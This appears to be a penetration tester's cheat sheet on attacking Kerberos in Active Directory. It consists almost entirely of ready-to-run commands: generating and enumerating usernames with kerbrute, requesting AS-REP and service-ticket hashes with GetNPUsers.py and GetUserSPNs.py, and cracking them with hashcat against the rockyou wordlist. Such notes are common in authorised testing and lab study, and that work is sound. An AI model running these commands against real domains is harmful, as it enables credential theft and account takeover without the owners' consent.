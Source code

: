 # Kerberos

### User Discovery

_Compile usernames_

```
/opt/username-anarchy/username-anarchy --input-file ./test-names.txt
```

_Find valid users_

{% code overflow="wrap" %}
```
kerbrute userenum /usr/share/wordlists/seclists/Usernames/Names/names.txt -d $domain --dc $ip
```
{% endcode %}

### Asreproasting

_uf dont require preauth_

{% code overflow="wrap" %}
```
GetNPUsers.py $domain/ -no-pass -usersfile /path/to/names.txt -dc-ip $ip
```
{% endcode %}

```
hashcat -d 2 krb5asrep.txt -m 18200 -a 0 /usr/share/wordlists/rockyou.txt
```

### Kerberoasting

```
python3 /usr/local/bin/GetUserSPNs.py domain.com/user:password -dc-ip $ip -request
```

<pre><code><strong>hashcat -d 2 krb5tgs.txt -m 13100 -a 0 /usr/share/wordlists/rockyou.txt
</strong></code></pre>
